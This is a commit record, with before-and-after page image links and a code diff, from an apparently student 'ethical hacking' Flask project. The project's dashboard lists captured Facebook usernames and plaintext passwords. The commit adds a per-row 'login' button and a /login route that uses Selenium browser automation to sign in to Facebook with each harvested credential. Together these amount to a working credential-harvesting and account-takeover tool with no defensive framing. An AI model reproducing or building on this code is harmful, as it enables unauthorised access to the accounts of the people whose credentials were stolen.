

Before and after one commit to anuragbakshi/Ethical-Hacking-Final-Project, a Flask app: page /dashboard in a window 1280 px wide. Shown: the top 885 px of the page, without its empty margins (0-640 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme; data comes from the database, SQL or seed files in the repository.

Commit message:
login button

```diff
--- a/main.py
+++ b/main.py
@@ -2,8 +2,11 @@ import logging
 
 from flask import abort, render_template, request, jsonify
 from sqlalchemy import column, literal, literal_column, text
+from selenium import webdriver
+from selenium.webdriver.common.keys import Keys
 
 import models
+import json
 
 from common import app, db
 
@@ -12,6 +15,23 @@ def dashboard():
 	creds = models.FacebookCredential.query.all()
 	return render_template('dashboard.html', credentials=creds)
 
+@app.route('/login', methods=['POST'])
+def login():
+	data = json.loads(request.data)
+	username = data["username"]
+	password = data["password"]
+	driver = webdriver.Firefox()
+	# or you can use Chrome(executable_path="/usr/bin/chromedriver")
+	driver.get("http://www.facebook.org")
+	assert "Facebook" in driver.title
+	elem = driver.find_element_by_id("email")
+	elem.send_keys(username)
+	elem = driver.find_element_by_id("pass")
+	elem.send_keys(password)
+	elem.send_keys(Keys.RETURN)
+	# driver.close()
+	return ('', 204)
+
 if __name__ == '__main__':
     from os import sys, path
     sys.path.append(path.dirname(path.dirname(path.abspath(__file__))))
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -2,6 +2,7 @@
 <html>
 	<head>
 		<title>Facebook Credentials Dashboard</title>
+		<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
 	</head>
 
 	<body>
@@ -20,9 +21,28 @@
 						<td>{{ cred.username }}</td>
 						<td>{{ cred.password }}</td>
 						<td>{{ cred.logged_timestamp }}</td>
+						<td><button onClick="login('{{ cred.username }}', '{{ cred.password }}')">login</button></td>
 					</tr>
 				{% endfor %}
 			</tbody>
 		</table>
 	</body>
+	<script>
+		function login(user, pass) {
+			console.log("laksjdlkasjdlaksjdlaksjdas");
+			var data = { username: user , password: pass};
+		    $.ajax({
+		        type: "POST",
+		        url: "/login",
+		        data: JSON.stringify(data, null, '\t'),
+    			contentType: 'application/json;charset=UTF-8',
+		        success: callbackFunc
+			});
+		}
+
+		function callbackFunc(response) {
+		    // do something with the response
+		    console.log(response);
+		}
+	</script>
 </html>
```
Also changed, not shown: 1 other file.
